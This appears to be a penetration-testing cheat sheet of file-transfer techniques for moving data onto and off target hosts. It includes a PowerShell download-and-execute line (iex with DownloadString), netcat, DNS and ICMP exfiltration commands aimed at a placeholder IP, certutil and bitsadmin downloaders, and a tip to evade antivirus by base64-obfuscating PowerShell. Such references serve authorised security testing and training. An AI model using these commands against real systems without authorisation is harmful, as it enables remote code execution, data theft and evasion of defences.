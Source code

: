 


### 1. HTTP/HTTPS

```bash
# Python HTTP Server:
python3 -m http.server 80 # Python 3
python -m SimpleHTTPServer 80 # Python 2
```

```bash
# Download with wget/curl:
wget http://<IP>/file
curl -O http://<IP>/file
```

```bash
# PHP Server:
php -S 0.0.0.0:80
```

### 2. SMB (Windows)

```bash
# Impacket SMB Server:
impacket-smbserver share $(pwd) -smb2support -username user -password pass
```

```bash
# Connect from Windows:
net use \\\\<IP>\\share /user:user pass
copy \\\\<IP>\\share\\file .
```

### 3. FTP

```bash
# Python FTP Server:
pip3 install pyftpdlib
python3 -m pyftpdlib -p 21 -w
```

```bash
# Connect with ftp:
ftp <IP>
get file
```

### 4. SCP (SSH)

```bash
# Upload/Download:
scp file.txt user@<IP>:/path # Upload
scp user@<IP>:/path/file.txt . # Download
```

### 5. Netcat (Unencrypted)

```bash
# Receiver (Listener):
nc -lvnp 4444 > file
```

```bash
# Sender:
nc <IP> 4444 < file
```

### 6. PowerShell (Windows)

```bash
# Download File:
Invoke-WebRequest -Uri http://<IP>/file -OutFile file
(New-Object Net.WebClient).DownloadFile("http://<IP>/file", "file")

# Base64 Encode/Decode:
[Convert]::ToBase64String([IO.File]::ReadAllBytes("file")) > file.b64
[IO.File]::WriteAllBytes("file", [Convert]::FromBase64String((Get-Content file.b64)))

# Basic download string
	iex (New-Object Net.Webclient).DownloadString("http://<IP>/<File>")
```

### 7. TFTP (UDP)

```bash
# Start TFTP Server:
atftpd --daemon --port 69 /tftp
```

```bash
# Download File:
tftp -i <IP> GET file
```

### 8. WebDav (HTTP)

```bash
# Python WebDav Server:
wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

```bash
# Mount in Windows:
net use * http://<IP>/webdav
```

### 9. DNS Exfiltration (Slow)

```bash
# Using dnscat2:
dnscat2 --dns server=<IP>,[domain=example.com](<http://domain=example.com/>)
```

### 10. Magic Windows Tricks

```bash
# Certutil:
certutil -urlcache -split -f http://<IP>/file
```

```bash
# Bitsadmin:
bitsadmin /transfer job /download /priority normal http://<IP>/file C:\\file
```

### 11. RDP Clipboard

```bash
Copy-paste files via RDP (enable clipboard sharing).
```

### 12. ICMP (Ping) Exfil

```bash
# icmp-exfil (Tool):
icmp-exfil -s <IP> -f file
```

### Notes:

- Encryption: Prefer SCP/HTTPS/SMB3 over unencrypted methods (FTP, HTTP, TFTP).
- Firewalls: Check allowed ports (80, 443, 445, 21, 22 are common).
- AV Evasion: Obfuscate scripts (e.g., base64-encoded PowerShell).

Source: [https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)